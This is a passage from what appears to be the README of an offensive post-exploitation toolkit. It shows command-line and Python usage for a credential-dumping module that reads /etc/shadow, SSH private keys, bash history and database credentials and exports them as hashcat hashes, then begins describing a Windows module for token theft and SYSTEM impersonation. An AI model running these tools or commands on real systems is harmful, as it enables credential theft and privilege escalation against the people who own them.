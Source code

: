 **Linux:**
- /etc/shadow extraction
- SSH private keys
- Bash history passwords
- Configuration file credentials
- Database credentials

**Usage:**

```bash
# Dump all credentials
python persistence/credential_dumping.py

# Export to JSON
python persistence/credential_dumping.py --export creds.json

# Export to CSV
python persistence/credential_dumping.py --export creds.csv --format csv

# Export hashes for hashcat
python persistence/credential_dumping.py --export hashes.txt --format hashcat
```

**Python API:**

```python
from persistence.credential_dumping import CredentialDumper

dumper = CredentialDumper()

# Dump all credentials
credentials = dumper.dump_all()

# Filter by type
hashes = [c for c in credentials if c.credential_type == 'hash']
passwords = [c for c in credentials if c.credential_type == 'password']

# Generate report
print(dumper.generate_report())

# Export
dumper.export_credentials('credentials.json', format='json')
dumper.export_credentials('hashes.txt', format='hashcat')
```

### 5. Token Manipulation (`persistence/token_manipulation.py`)

Windows token manipulation and impersonation (Windows only).

**Features:**
- Token stealing from processes
- Token duplication
- Token impersonation
- Privilege enabling (SeDebugPrivilege, etc.)
- SYSTEM token theft
- Process creation with stolen tokens
